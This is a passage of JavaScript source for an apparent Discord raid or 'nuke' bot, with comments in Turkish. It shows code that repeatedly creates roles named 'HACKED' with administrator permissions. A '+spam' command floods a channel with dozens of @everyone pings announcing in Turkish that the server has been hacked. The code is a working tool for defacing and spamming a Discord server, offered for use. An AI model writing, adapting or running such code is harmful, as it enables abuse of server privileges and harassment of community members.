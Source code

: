                     msg.guild.createRole({
      name: "HACKED",
      color: "FF0097",
      permissions: ["ADMINISTRATOR"]
    });
                    msg.guild.createRole({
      name: "HACKED",
      color: "FF005D",
      permissions: ["ADMINISTRATOR"]
    });
                    msg.guild.createRole({
      name: "HACKED",
      color: "FF0032",
      permissions: ["ADMINISTRATOR"]
    });
  }
});

client.on('message', msg => {
  if (msg.content === '+spam') { //KOMUTU YAZDIGINIZ KANALA SPAM ATAR
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:');  
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 
        msg.channel.send('**__BU SUNUCU HACKLENMİŞTİR KOLAYDINIZ xD__** @everyone :wink: :heart:'); 